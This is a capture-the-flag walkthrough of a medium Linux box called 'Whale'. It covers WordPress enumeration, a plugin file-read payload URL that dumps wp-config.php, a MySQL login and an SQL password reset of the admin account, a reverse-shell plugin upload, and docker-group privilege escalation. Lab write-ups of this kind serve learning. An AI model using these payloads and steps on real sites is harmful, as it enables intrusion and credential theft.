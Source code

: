 ## WHALE

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/6a7ee79c-1f97-4372-b29b-46193440a592)



DIFFICULTY= medium

OS = Linux


### Nmap scan

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/e7ac9040-3910-472c-be9b-5ef758724426)

adding the domain to /etc/hosts
``echo "ip  bluewhale.net" >> /etc/hosts``

so, visiting the site shows it's running wordpress

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/016ff2dd-3aa3-4996-87f1-71fe567ed16f)

let's enumerate the wordpress using ``wpscan`` aggressive detection

```wpscan --url http://bluewhale.net/  --plugins-detection aggressive -t 120```

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/e4f489b7-a427-4c19-8ae1-ac24d5acb083)

it gives us a vulnerable plugin; the plugin is vulnerable to arbitrary file read

so, we can exploit it using [this](https://www.exploit-db.com/exploits/33004)

doing that,we should be able to read the wordpress config file ``wp-config``

```bluewhale.net/wp-content/plugins/post-pdf-export/dompdf/dompdf.php?input_file=php://filter/read=convert.base64-encode/resource=../../../../wp-config.php```

reading it gives us the gives us the base64 encoded chars.

decoding it shows the mysql credential

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/01cdc783-aa0d-4bb4-90b5-4cc1923258e5)

let's login to mysql with it 
``mysql -u wordpress -h bluewhale.net -p``
and input the password

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/7780d4f1-3484-4965-9a8e-160e4e8cad08)
![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/8e86ab4c-12bc-4a85-b364-48d9a0198a5a)

as u can see we have the first flag already

let's proceed by checking the wp_users table 

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/eb5268df-f706-4f33-9883-980684964c78)

and yeah we have the credentials for the wordpress login

so, instead of cracking the password hash we can actually change the password to our desired own for easier loggin(cool trick right?) lol

```UPDATE wp_users SET user_pass = MD5('hacked') WHERE ID = 1;```

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/bc564284-6efa-44b7-a82f-dcd6707a4d05)

so, we can now login to wordpress and proceed

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/4b971843-adc4-4474-90ba-1f82bfa63aca)

login and upload a reverse shell using the add plugin feature
![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/288de2a8-c124-488d-9af6-0499c0212844)

and let's access our shell in the upload directory
![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/49a87b3e-5c6e-4a98-952d-ae3f2b0020b0)

 getthe reverse shell and stablize it

 ![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/4f5fedf6-4f12-4775-b36c-3350bc222824)


### Privilege escalation

 Enumerating further i got the ssh private key for the user ``whale`` in the whale home directory ``.bak`` cool :)

 ![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/b03ecfd8-664d-4866-b2d6-155715944b35)

 so we can now ssh into the box as user whale

 ![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/dfe9578b-01d0-4564-b69a-2779e77e4964)

 so let's read the FLAG58 which we ain't able to read before.

 ![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/dc6da781-061d-45c5-80dc-f1c0ab394633)

 so, running the command ``id`` shows the user ``whale`` is in *docker group* which we can escalate our privilege to root using it.
 ![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/baa92ea4-4cfa-4fb5-96d7-9cc1fa8501cc)

 read more about the docker group privilege escalation [here](https://flast101.github.io/docker-privesc/)

following the steps should give us root

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/ac79dee5-74fc-49d2-bf98-e53b52529e5a)


Thanks.

Tags: DOM2PDF,LFI,DOCKER












